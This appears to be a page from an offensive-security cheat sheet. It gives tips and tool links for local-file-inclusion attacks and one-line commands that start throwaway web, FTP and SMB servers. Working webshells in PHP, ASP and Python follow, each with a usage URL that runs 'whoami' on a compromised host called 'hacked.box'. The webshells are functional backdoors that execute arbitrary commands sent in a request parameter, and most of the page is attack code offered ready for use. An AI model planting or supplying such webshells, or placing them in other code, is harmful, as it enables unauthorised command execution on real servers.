 **TIPPS**

 - Don't forget to scan for unused parameters - e.g. with  
   `/usr/share/wordlists/SecLists/Discovery/Web-Content/burp-parameter-names.txt`
 - Useful wordlist for fuzzing can be found in `/usr/share/wordlists/SecLists/Fuzzing/LFI/`

**TOOLS**

 - https://github.com/mzfr/liffy
 - https://github.com/D35m0nd142/LFISuite
 - https://github.com/OsandaMalith/LFiFreak


## Quick & easy servers

 - `sudo python3 -m http.server 80` (start webserver on port 80)
 - `sudo php -S 0.0.0.0:80` (start webserver on port 80)
 - `sudo python -m pyftpdlib -p 21` (start ftp server on port 21)
 - `sudo impacket-smbserver -smb2support share $(pwd)` (start SMB server and share the curent directroy)


## Webshells

**PHP**

```php
<?php echo system($_GET["c"]) ?>
```

Usage: `https://hacked.box/upload/shell.php?c=whoami`

**ASP**

```asp
<% eval request('c') %>
```

Usage: `https://hacked.box/upload/shell.asp?c=whoami`

**Python**

```python
#!/usr/bin/env python3
import cgi
import cgitb
import subprocess

cgitb.enable()

print("Content-Type: text/html")
print()

fs = cgi.FieldStorage()
try:
    cmd = fs['c'].value.strip()

    p = subprocess.Popen(cmd.split(" "), stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    p.wait()
    out, err = p.communicate()
    out = "<pre>" + out.decode("UTF-8") + "<hr>" + err.decode("UTF-8") + "<pre>"

except KeyError:
    out = "Use <pre>?c=[command]</pre> to execute a command!"
  
except:
    out = "Unknown error"

print(out)
```